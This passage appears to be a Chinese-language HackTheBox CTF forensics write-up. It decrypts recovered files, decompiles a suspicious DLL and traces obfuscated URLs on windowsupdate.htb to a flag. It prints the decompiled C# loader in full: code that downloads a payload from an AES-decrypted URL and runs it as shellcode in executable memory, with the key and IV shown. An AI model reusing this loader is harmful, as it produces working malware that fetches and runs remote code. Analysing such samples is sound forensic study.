        if os.path.exists(file_path) and os.path.exists(key_file_path):
            decrypt_file(file_path, key_file_path)
        else:
            print(f"File not found: {file_path} or {key_file_path}")

```

将三个文件恢复后，把`csrss.exe`跟`wanted.pdf`丢云沙箱检测都是安全文件，`csrss.exe.config`打开看到个新路径`http://windowsupdate.htb/5f8f9e33bb5e13848af2622b66b2308c.json`，在靶机下载该文件发现是dll，丢云沙箱是可疑文件，可见字符串发现类似aes/des加密字符串，尝试将第二第三行作为key跟IV解密，都失败



用dnSpy反编译dll看源码，查看函数调用

```
internal static class cameldeeplybushes11928
{
    // Token: 0x06000006 RID: 6 RVA: 0x00002134 File Offset: 0x00000334
    public static void silverquickclam06103()
    {
        ServicePointManager.SecurityProtocol |= SecurityProtocolType.Tls12;
        byte[] array = dfsvc.cameldeeplybushes11928.indigowilddrain95354(new Uri(dfsvc.magentaboorishgirl01630.indigoinnocentbeast26519("ZzfccaKJB3CrDvOnj/6io5OR7jZGL0pr0sLO/ZcRNSa1JLrHA+k2RN1QkelHxKVvhrtiCDD14Aaxc266kJOzF59MfhoI5hJjc5hx7kvGAFw=")));
        uint num = (uint)array.Length;
        IntPtr intPtr = dfsvc.avocadoreflectivefloor83964.VirtualAlloc(IntPtr.Zero, num, 12288U, 64U);
        Marshal.Copy(array, 0, intPtr, (int)num);
        dfsvc.avocadoreflectivefloor83964.WaitForSingleObject(dfsvc.avocadoreflectivefloor83964.CreateThread(IntPtr.Zero, 0U, intPtr, IntPtr.Zero, 0U, IntPtr.Zero), uint.MaxValue);
    }

    // Token: 0x06000007 RID: 7 RVA: 0x000021A4 File Offset: 0x000003A4
    internal static byte[] indigowilddrain95354(Uri minttemporarybubble05246)
    {
        byte[] result;
        using (WebClient webClient = new WebClient())
        {
            result = webClient.DownloadData(minttemporarybubble05246);
        }
        return result;
    }
}

public static class magentaboorishgirl01630
{
    // Token: 0x06000008 RID: 8 RVA: 0x000020FB File Offset: 0x000002FB
    public static string indigoinnocentbeast26519(string claretpurpleneck44589)
    {
        return dfsvc.magentaboorishgirl01630.charcoalsleepyadvertisement91853(Convert.FromBase64String(claretpurpleneck44589)).Replace("\0", string.Empty);
    }

    // Token: 0x06000009 RID: 9 RVA: 0x000021DC File Offset: 0x000003DC
    private static string charcoalsleepyadvertisement91853(byte[] creamgrievingcover13021)
    {
        string @string;
        using (AesManaged aesManaged = new AesManaged())
        {
            aesManaged.Mode = dfsvc.magentaboorishgirl01630.cipherMode;
            aesManaged.Padding = dfsvc.magentaboorishgirl01630.paddingMode;
            aesManaged.Key = dfsvc.magentaboorishgirl01630.steelshiveringpark49573;
            aesManaged.IV = dfsvc.magentaboorishgirl01630.fuchsiaaromaticmarket70603;
            ICryptoTransform transform = aesManaged.CreateDecryptor(aesManaged.Key, aesManaged.IV);
            using (MemoryStream memoryStream = new MemoryStream(creamgrievingcover13021))
            {
                using (CryptoStream cryptoStream = new CryptoStream(memoryStream, transform, CryptoStreamMode.Read))
                {
                    byte[] array = new byte[creamgrievingcover13021.Length];
                    int count = cryptoStream.Read(array, 0, array.Length);
                    @string = Encoding.UTF8.GetString(array, 0, count);
                }
            }
        }
        return @string;
    }

    // Token: 0x0600000A RID: 10 RVA: 0x000022B4 File Offset: 0x000004B4
    private static byte[] charcoalderangedcarriage58994(string orangewealthyjump31951)
    {
        byte[] result;
        using (SHA256 sha = SHA256.Create())
        {
            result = sha.ComputeHash(Encoding.UTF8.GetBytes(orangewealthyjump31951));
        }
        return result;
    }

    // Token: 0x04000017 RID: 23
    private static string creamhollowticket40621 = "tbbliftalildywic";

    // Token: 0x04000018 RID: 24
    private static byte[] fuchsiaaromaticmarket70603 = Encoding.UTF8.GetBytes(dfsvc.magentaboorishgirl01630.creamhollowticket40621);

    // Token: 0x04000019 RID: 25
    private static string mintpumpedowl79724 = "vudzvuokmioomyialpkyydvgqdmdkdxy";

    // Token: 0x0400001A RID: 26
    private static byte[] steelshiveringpark49573 = dfsvc.magentaboorishgirl01630.charcoalderangedcarriage58994(dfsvc.magentaboorishgirl01630.mintpumpedowl79724);

    // Token: 0x0400001B RID: 27
    private static CipherMode cipherMode = CipherMode.CBC;

    // Token: 0x0400001C RID: 28
    private static PaddingMode paddingMode = PaddingMode.Zeros;
}

```

分析得到使用AES加密，模式CBC，密文是`ZzfccaKJB3CrDvOnj/6io5OR7jZGL0pr0sLO/ZcRNSa1JLrHA+k2RN1QkelHxKVvhrtiCDD14Aaxc266kJOzF59MfhoI5hJjc5hx7kvGAFw=`，IV是`tbbliftalildywic`，key是`sha256(vudzvuokmioomyialpkyydvgqdmdkdxy)`



得到新url`http://windowsupdate.htb/ec285935b46229d40b95438707a7efb2282f2f02.xml`

访问该xml得到




刚看到有点懵b，后面发现火狐浏览器看到的源码不一样



搜HTB头找到flag



之后用wget命令下载该xml，发现和火狐看到的源码一样


